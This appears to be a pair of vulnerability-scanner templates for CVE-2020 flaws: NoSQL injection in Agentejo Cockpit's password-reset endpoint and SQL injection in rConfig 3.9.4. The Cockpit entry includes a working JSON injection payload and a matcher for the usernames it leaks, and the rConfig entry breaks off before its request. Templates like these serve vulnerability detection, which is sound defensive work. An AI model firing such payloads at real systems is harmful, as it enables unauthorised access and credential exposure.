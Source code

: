 
# Agentejo Cockpit \<0.11.2 - NoSQL Injection

## Description

- Agentejo Cockpit before 0.11.2 allows NoSQL injection via the Controller/Auth.php resetpassword function of the Auth controller.
- severity - critical
- tags - cve,cve2020,nosqli,sqli,cockpit,injection

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/auth/requestreset
  - {
    "user": {
    "$func": "var_dump"
    }
    }

### Matchers

**Type - regex**

- part - body
- regex
  1. string\([0-9]{1,3}\)(\s)?"([A-Za-z0-9]+)"

---

# rConfig 3.9.4 - SQL Injection

## Description

- rConfig 3.9.4 and previous versions have unauthenticated compliancepolicies.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli

## Requests

- Method - GET

### URL
